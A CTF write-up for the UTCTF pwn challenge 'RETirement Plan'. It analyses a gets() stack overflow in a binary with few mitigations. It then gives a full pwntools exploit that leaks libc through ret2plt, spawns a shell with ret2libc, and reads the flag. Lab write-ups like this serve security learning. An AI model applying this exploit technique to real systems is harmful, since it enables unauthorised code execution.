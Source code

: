 https://ctftime.org/event/2641

# RETirement Plan (pwn)

nc challenge.utctf.live 9009

## Analysis

We can see that the binary has almost no mitigations enabled:

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      No PIE (0x400000)
Stack:    Executable
RWX:      Has RWX segments
```

This suggests there are many different ways to approach this task.

`main` @ `0x400616`:

- Calls `gets(local_48)`
- Does... something else, I don't know what, but will crash unless one or more stack slots after the return are not pointers to writeable addresses.

## Solution

1) Do ret2plt to bypass ASLR on libc.
2) Do ret2libc to get a shell. 

Note: in both cases you should take care to ensure that the stack contains pointers to writable addresses, e.g. in `.bss`, to ensure that `main` can actually reach the `ret` at the end without crashing.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./shellcode_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b *0x40063c")
p = remote("challenge.utctf.live", 9009)

BSS = 0x601f00

rop = ROP(elf)
rop.raw(p64(BSS) * (0x48 // 8))
rop.puts(elf.got["puts"])
rop.raw(elf.sym["main"])
p.sendlineafter(b"here>: \n", rop.chain())

leak = u64(p.recv(6) + b"\x00\x00")
libc.address = leak - libc.sym["puts"]
#log.success(f"libc: {hex(libc.address)}")

rop = ROP(libc)
rop.raw(p64(BSS) * (0x48 // 8))
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendlineafter(b"here>: \n", rop.chain())

p.sendline(b"/bin/cat /flag.txt")

print(p.readuntil(b"}").decode()) # utflag{i_should_be_doing_ccdc_rn}
```

### Thoughts On The Solution

Given the binary name `shellcode` and the executable stack I suspect the author wanted us to write shellcode with `gets` and maybe use a `jmp rax` gadget to pivot into it. Not sure...

## Flag
`utflag{i_should_be_doing_ccdc_rn}`

smiley 2025/03/15
